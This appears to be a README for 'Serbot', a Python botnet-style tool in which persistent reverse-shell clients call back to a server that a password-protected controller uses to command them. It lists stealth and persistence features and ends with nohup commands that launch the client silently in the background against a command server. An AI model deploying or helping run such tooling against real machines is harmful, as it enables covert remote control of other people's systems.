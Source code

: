 Serbot is an advanced version of Awrs where the Server can be managed by 1 Controller at a time.

######Example:
Server hosted on 15.48.158.15 and accepts up to 100 clients through port 1567, accepts 1 Controller at a time through port 2357 and the Controller’s functions are protected with a password: “IAmAPassword”
Client 1 hosted on 86.58.157.25 connected to 15.48.158.15:1567
Client 2 hosted on 78.459.17.35 connected to 15.48.158.15:1567
Controller running on my own computer connected to the Server on 15.48.158.15:2357 using the valid password “IAmAPassword”

In Serbot’s case, the Server also plays the role of a Bridge between the Clients and the Controller. This should sum things up. There’s a lot of benefits out of this now that’s for sure. A team of Researches or Hacktivists can now interact with all their clients using their Controllers, they don’t have to worry about portforwading, reverse shell’s stability and speed etc and they’re all sharing everything they have control on in one place.

In Serbot, everything was dealt with, your Server will never crash nor will your Clients no matter what, check the features list below for more info:

#####Server:
1. Linux/Windows Version.
1. Multi Handler. Can handle multiple connections all at once.
1. Bridge. Plays also the roll of a Bridge between the Clients and the Controller.
1. The Controller’s connection requires a plain text password, it’s not the best but it’s more than enough when it comes to keeping “l337 hax0rz b0t tak30v3r” away.
1. Accepts only 1 Controller at a time.
1. Kicks the Controller after 5 mins. This was added just in case someone forgot his Controller on which won’t allow other controllers to connect (since the Server only accepts 1 controller at a time).
1. Uses a very small amount of CPU and RAM when running.
1. Fast and Stable.

#####Client:
1. Linux Version.
1. You’ll never lose your shell. (No Output, Wrong, Interactive and Infinite commands won’t kill your shell)
1. Can handle commands like: mkdir whatever; cd whatever.
1. Never closes and is always trying to connect to the Server.
1. Can handle any command properly, such as the cd command.
1. Always gets back a response. (Command Output or Simple Client response)
1. Uses a very small amount of CPU and RAM when running.
1. Fast and Stable.

#####Controller:
1. Linux/Windows Version.
1. Handles all commands perfectly.
1. Handles any stupidity (KeyboardInterrupts, empty commands, etc) perfectly.
1. Uses a very small amount of CPU and RAM when running.
1. Easy user interface.
1. Fast and Stable.

This list isn’t enough but that’s all that I can think of right now. If you want to know how stable Serbot is then you have to try and code something similar to it Lol because then you’ll know that it handles everything you’re facing when it comes to bugs, errors, commands etc…

You simply have to remove the “#!/usr/bin/env python2″ at the top of every script to get this up and running on windows.

######Example:
nohup python client.py 15.48.158.15 1567 > /dev/null &

nohup python client.py 15.48.158.15 1567 > /dev/null 2>&1 &
